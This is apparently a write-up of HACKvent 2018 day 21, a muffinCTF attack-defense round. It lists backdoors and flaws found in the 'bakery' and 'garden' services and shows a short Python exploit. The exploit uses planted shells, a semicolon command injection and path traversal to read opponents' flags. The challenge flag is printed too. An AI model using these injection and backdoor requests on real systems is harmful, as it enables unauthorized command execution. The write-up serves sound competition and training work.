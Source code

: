 # Day 21: MuffinCTF

*Day 1*

```
DAY 1 Services
--------------------------------------------
       _______
      /       )
     /_____   | ______
    (  '   ) / /    __\   _____
     |.  '| / |     \ |  /     ))
     |____|/  |`-----'  /_____))
               `-----'  `------'

    Name: bakery
    Description:
        Simply the best bakery in town!
        The good smell goes around the streets.
        Make sure that the thieves of the enemy nations cannot steal our bread!
        Maybe you have a method where we can get more bread?
    Creator: muffinx


            / \  _  _  _  / \
            | | / \/ \/ \ | |
        %   | |I| || || |=o | %
        %   | | j_jj_jj_j | | %     v %
      V |   | ||_________|| | | .:,>@<%%
     >@<| ; | | | || || | | | | ~*~ | |%
     *| |:X:| |I| || || | | | |*'|`\|/||   ~@~   *
    ,||/|`|'|_| |_||_||_| |_|,||,|/ |,||Vv,`|',v`|v hjw

    Name: garden
    Description:
        A very beautiful vegetable/fruit garden.
        There is even a pond where there are swimming fish and jumping frogs.
        Fix the defenses, in our past we had attacks with fire arrows.
        Also we are short in potatoes, please get us some more.
    Creator: muffinx
```

Login to: [muffinCTF](http://whale.hacking-lab.com:9280/)

### Description

To get the HACKvent day 21 (muffinCTF day 1), you had to achieve the following requirements, in at least 2 of the last 5 ticks (1 tick = 3 minutes).

Have [garden](files/garden.zip) or/and [bakery](files/bakery.zip) service running with the following stats:
 - attack points > 0
 - maximal defense points
 - maximal availability points
 
Here is a copy of the [official instructions](INSTRUCTIONS.md).

### Solution

I went through all of the source files to find vulnerabilities of those services. Here is what I found.

##### Bakery

- Sneaky remote shell backdoor in `/home/bakery/.../.php`
- Path traversal vulnerability in `/home/bakery/inc/inc.php`
- Eval injection in `/home/bakery/inc/breads.php`
- Arbitrary PHP page upload in `/home/bakery/inc/breads.php`
- Arbitrary command execution in `/home/bakery/inc/breadSend.php`
- Another sneaky remote shell hidden in `/home/bakery/css/components.checkbox.php`

##### Garden

- Potential SSTi in `/home/garden/templates/home.html`
- SQLi in `/home/garden/main.py`
- Arbitrary code execution via `yaml.load()` in `/home/garden/main.py`
- Publicly accessible database file `garden.db` via symlink in static content folder `/home/garden/static`

Once I patched my services I took a look at other places and found several others backdoors.

- PHP remote shell in `/var/www/html/index.php`
- Python backdoor executing commands from an [anonbox](https://anonbox.net/en/) mailbox in `/home/keep/keep.py`
- Another Python backdoor listening to commands sent via chat channel in `/home/tunnel/tunn.py`
- Yet another Python backdoor in `/root/log.py`

I removed all of them and started my vuln_box.

Then I moved to preparation of my exploits using provided [attack library](../../src/main/python/hackvent2018/tools/muffin_ctf.py). Since I found more vulnerabilities in the bakery I focused solely on that service.

I ended up with this exploit which earned me the flag.

```python
def bakery_exploit(attack_url):
    output = ''

    # grep -hra muffinCTF /home/bakery/breads
    output += get_flags(attack_url + '.../.php?_=grep+-hra+muffinCTF+/home/bakery/breads')
    output += get_flags(attack_url + 'css/components/checkbox.php?_=grep+-hra+muffinCTF+/home/bakery/breads')
    output += get_flags(attack_url + 'inc/breadSend.php?ip=127.0.0.1%3Bgrep+-hra+muffinCTF+/home/bakery/breads')
    output += get_flags(attack_url + 'inc/inc.php?page=../../../var/www/html/index.php&c=grep+-hra+muffinCTF+/home/bakery/breads')

    return output

muffin_ctf.attack_all('bakery', bakery_exploit)
```

Complete source code of my exploit can be found [here](../../src/main/python/hackvent2018/Day21.py).

This is the flag I got.

```
HV18{muffinCTF{d4y_1_l3t_th3_g4m3s_b3g1n_st4y_c0v3r3d_f0r_m0r3_h4x_stuff}}
```
